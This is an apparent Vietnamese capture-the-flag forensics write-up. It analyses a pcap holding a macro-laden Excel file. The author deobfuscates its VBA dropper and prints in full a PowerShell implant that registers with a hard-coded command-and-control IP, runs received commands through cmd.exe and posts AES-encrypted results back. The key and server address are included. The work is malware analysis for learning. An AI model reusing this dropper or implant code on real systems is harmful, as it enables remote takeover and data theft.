# _UNDER CONTROL_ _(FORSENSICS)_


Thử thách cho 1 file pcap. Có thể thấy 1 gói tin http GET request file `/Danh%20s%C3%A1ch%20ph%C3%A2n%20thi.xls` liền export file đó về



Mở thử, thấy thông báo nên chắc chắn dính macro



Đem qua `KaliLinux` dùng `olevba` phân tích



Khá hoa mắt Nhưng thực chất đoạn mã trên bị làm rối bằng cách sử dụng hàm với những kí tự loằng ngoằng và khó hiểu, dùng vscode để chỉnh lại các hàm cho dễ đọc

```vba
Function a(b)
c = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
d = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(b)
e = InStr(c, Mid(b, y, 1))
If e > 0 Then
f = Mid(d, e, 1)
g = g + f
Else
g = g + Mid(b, y, 1)
End If
Next
a = g
For h = 1 To Len(i)
i = h
Next
For j = 2 To Len(k)
k = 2
Next
For l = 3 To Len(m)
m = l
Next
For n = 4 To Len(o)
o = 2
Next
End Function
Sub Workbook_Open()
Dim p As Object
Dim q As String
Dim r As String
Dim s As String
Dim t As Integer
t = Chr(50) + Chr(48) + Chr(48)
Set p = CreateObject("WScript.Shell")
q = p.SpecialFolders("AppData")
Dim u
Dim v
Dim ¢e¶
Dim h As Long
Dim j As String
Dim w As Long
Dim m As String
Dim l As Long
Dim n As String
Dim x As String
Dim k As Long
Dim w
Dim y
Dim z As Integer
Dim huong6
Dim huong
z = 1
Range("A1").Value = a("4BEiàiuP3x6¿QEi³")
Dim huong2 As String
huong3 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
huong2 = a(huong3)
MsgBox huong2, vbInformation, a("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim huong4 As Date
Dim huong5 As Date
huong4 = Date
huong5 = DateSerial(2023, 6, 6)
If huong4 < huong5 Then
Set huong6 = CreateObject("microsoft.xmlhttp")
Set y = CreateObject("Shell.Application")
w = q + a("\k¿i6Ü_~Bb@")
huong6.Open "get", a("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
huong6.send
v = huong6.responseBody
If huong6.Status = 200 Then
Set u = CreateObject("adodb.stream")
u.Open
u.Type = z
u.Write v
u.SaveToFile w, z + z
u.Close
End If
y.Open (w)
Else
MsgBox a("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

Đây là đoạn code đầu tiên mình chú ý



Thấy được 1 Function `a` xử lí chuỗi đầu vào `b`. Nếu kí tự trong chuỗi `b` có trong chuỗi `c` thì hàm sẽ thay thế nó bằng kí tự trong chuỗi `d` với vị trí tương ứng, kết quả cuối sẽ được lưu vào chuỗi `g`
```
Ví dụ:
- b = "abc"
- c = "abcdef"
- d = "123456"

-> g = "123"
```



Có thể thấy đoạn mã liên tục khởi tạo hàm với 1 chuỗi khó hiểu và gọi hàm `a` ra để decrypt. Mình sẽ decrypt đoạn này trc tại khá giống với 1 đường link https

```
ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@
```
Script:

```python
def a(b):
    c = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
    d = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
    
    g = ""
    for char in b:
        index = c.find(char)  # Tìm vị trí của ký tự trong 
        if index != -1:
            g += d[index]  # Lấy ký tự tương ứng trong c
        else:
            g += char  # Nếu không tìm thấy thì giữ nguyên
    
    return g

huong = "ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"
giaima = a(huong)
print(giaima)
```

Kết quả là một đường link github



Mình cũng sẽ thử một số hàm khác xem có gì



Thấy đc chính là các thông báo khi chạy trực tiếp file excel kia

Quay lại vấn đề chính là link github kia và đây là nội dung





Thấy một đoạn mã pwsh bị obfuscat, dùng powerdecode để làm đẹp hơn



Kết quả:

```powershell
${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   ${XNfD}=[tyPe]'System.cONVErT'  ;  ${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  SeT-iTem 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; ${UJXRc}=[tyPE]'StrinG' ;function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    
    ${AJuJVRAZ99}           = New-Object 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  gEt-vARIAblE  ("8rt3Wa") -Value  )::"cBc"
    ${aJujVRAZ99}.PAddInG   =  ( Dir  'vARIable:72j5o'  ).VALUe::"zeRos"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    
    if (${5TMRWPluy}) {
        
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (dir  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    
    if (${VxZtMFF}) {
        
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {
    
    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
function ShELL(${DfJz1co}, ${yo8xm5}){
    
    ${CwzVYVJ}                        = New-Object 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = New-Object 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}
    
    ${p}.Start.INvoKE() | Out-Null
    ${P}.WaitForExit.invoKE()
    
    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw" 
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (Invoke-WebRequest -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    
    ${MA04XMgY}  = (Invoke-WebRequest -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt
    
    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){
        
        ${mA04XMgY} = Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]
        
        if (${FlAg} -eq 'VALID'){
            
            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){
            
                ${F}    = 'cmd.exe'
                ${yO8XM5}  = "/c "
            
                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a}}
                ${KcNJCQdL}  = shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq ''){
            
                ${f}    = '.exe'
                ${yO8Xm5}  = "/c "
            
                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a}}
                ${kcNjcqdL}  = shell ${F} ${yO8XM5}
                ${kcnjCQDL}  = Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){
                
                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kVQbXbUr}    = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    sleep ${N}
    }
}
```
Đoạn mã khá dài, nên mình sẽ chú thích vào ảnh cho dễ hình dung



KEY:
>d/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M=

Tiếp theo:



Có thể thấy dữ liệu được gửi thông qua `HTTP Post request`



Có thể thấy ban đầu tên máy tính đã được gửi đi, từ dữ liệu trên lấy được IV bằng 16 byte đầu của dữ liệu mã hóa

